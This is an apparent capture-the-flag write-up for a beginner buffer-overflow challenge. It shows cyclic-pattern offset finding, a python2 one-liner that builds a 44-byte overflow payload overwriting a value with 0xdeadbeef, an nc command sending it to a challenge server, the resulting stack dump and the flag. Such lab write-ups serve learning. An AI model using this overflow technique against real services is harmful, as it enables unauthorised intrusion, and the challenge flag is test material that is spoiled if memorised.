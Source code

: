 ```yaml
---
Name: Getting Started
Category: Pwn
Difficulty: Very Easy
---
```


## Description
>Get ready for the last guided challenge and your first real exploit. It's time to show your hacking skills.

## Solution
Generate a cyclic pattern and send it to the program as input and check which bytes make it into the RIP, then unhex and find the offset.
```bash
cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

unhex 6161616c6161616b

cyclic -l laaa
44
```

Create a payload and send it to the server.
```bash
python2 -c 'print "A" * 44 + "\xef\xbe\xad\xde"' > payload

nc 209.97.129.76 30115 < payload
```

Receive flag :)
```bash
      [Addr]       |      [Value]       
-------------------+-------------------
0x00007ffd6d3fc690 | 0x4141414141414141 <- Start of buffer
0x00007ffd6d3fc698 | 0x4141414141414141
0x00007ffd6d3fc6a0 | 0x4141414141414141
0x00007ffd6d3fc6a8 | 0x4141414141414141
0x00007ffd6d3fc6b0 | 0x4141414141414141 <- Dummy value for alignment
0x00007ffd6d3fc6b8 | 0xdeadbeef41414141 <- Target to change
0x00007ffd6d3fc6c0 | 0x0000557386505800 <- Saved rbp
0x00007ffd6d3fc6c8 | 0x00007f02fd685c87 <- Saved return address
0x00007ffd6d3fc6d0 | 0x0000000000000001
0x00007ffd6d3fc6d8 | 0x00007ffd6d3fc7a8

HTB{b0f_s33m5_3z_r1ght?}
```